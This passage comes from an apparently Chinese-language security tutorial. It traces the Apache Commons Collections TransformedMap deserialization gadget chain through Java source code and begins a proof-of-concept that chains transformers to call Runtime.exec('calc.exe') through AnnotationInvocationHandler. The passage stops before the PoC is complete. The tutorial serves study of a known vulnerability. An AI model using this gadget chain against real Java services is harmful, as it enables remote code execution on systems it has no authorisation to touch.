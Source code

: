 ```java
        protected EntrySetIterator(Iterator iterator, AbstractInputCheckedMapDecorator parent) {
            super(iterator);
            this.parent = parent;
        }
        
        public Object next() {
            Map.Entry entry = (Map.Entry) iterator.next();
            return new MapEntry(entry, parent);
        }
    }


// 继续追溯，memberValues.entrySet()最终返回的就是MapEntry类的对象
static class MapEntry extends AbstractMapEntryDecorator {

        /** The parent map */
        private final AbstractInputCheckedMapDecorator parent;

        protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
            super(entry);
            this.parent = parent;
        }
		
        // memberValue.setValue执行的即是MapEntry类的SetValue方法
        // 这里的parent一步步追溯下来，就是类本身，所以它执行的checkSetValue是该类的实现该类的TransformedMap对象的checkSetValue方法
        public Object setValue(Object value) {
            value = parent.checkSetValue(value);
            return entry.setValue(value);
        }
    }
// ......
```

让我们回顾TransformedMap的checkSetValue方法，再回顾之前的内容，可以发现`valueTransformer.transform(value)`是可以触发漏洞的。

```java
protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

那我们总结下现在可以写出poc代码。

```java
public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"calc.exe"}),
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        // new
        // 遍历Map的元素时触发memberValue.setValue
        innerMap.put("test", "xxxx");
        // new
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
    
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
```